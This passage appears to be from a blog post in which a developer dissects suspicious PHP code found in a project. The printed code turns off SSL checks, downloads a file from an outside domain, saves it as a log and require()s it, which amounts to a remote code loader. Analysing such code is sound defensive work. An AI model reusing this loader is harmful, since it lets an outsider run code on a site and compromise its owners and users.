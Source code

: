  ```php
	  "ssl"=>array(
				  "verify_peer"=>false,
				  "verify_peer_name"=>false,
	  )
	);
		$content = file_get_contents('http://mir.buymskey.com/tool/editor.txt', false, $context1);
	}
	  file_put_contents($write_file,$content);
  }
/*
  if (file_exists('write_check_class.log')==True){
	$check_content=file_get_contents('write_check_class.log');
	if ($check_content!='refer check class'){
		$check_sure=False;
	}
  } else {
	$check_sure=False;
  }*/
  $file_name=dirname(__FILE__);
  file_put_contents('write_check_class.log',$file_name.':::refer check class');
  $last_log_sure=True;
  if (file_exists($write_file)==True){
	$last_get_content=file_get_contents($write_file);
	if ((strpos($last_get_content, 'confirm:start of editor file') !== false) && (strpos($last_get_content, 'confirm:end of editor file') !== false)){
		require($write_file);
	}
	else{
		echo 'editor not exist!!!';
	}
  } else {
	echo 'editor not exist!!!';
  }
  //this is require_editor file end
```
	
	
	
So the question becomes: what the hell is this code doing? PHP isn't really in my wheelhouse as I spend most of my time writing JS and building apps with it's associated frameworks. But let's see what we can infer or "grok" from what's written here.

First few lines: 

```php

 //this is require_editor file start
    error_reporting(0);
      set_time_limit(0);
      $log_sure=True;
      $write_file='write_work_complete.log';
  if (file_exists($write_file)==True){
	$get_content=file_get_contents($write_file);
	if ((strpos($get_content, 'confirm:start of editor file') !== false) && (strpos($get_content, 'confirm:end of editor file') !== false)){
		$content=$get_content;
	} else {
		$log_sure=False;
	}
  } else {
	$log_sure=False;
  }
```
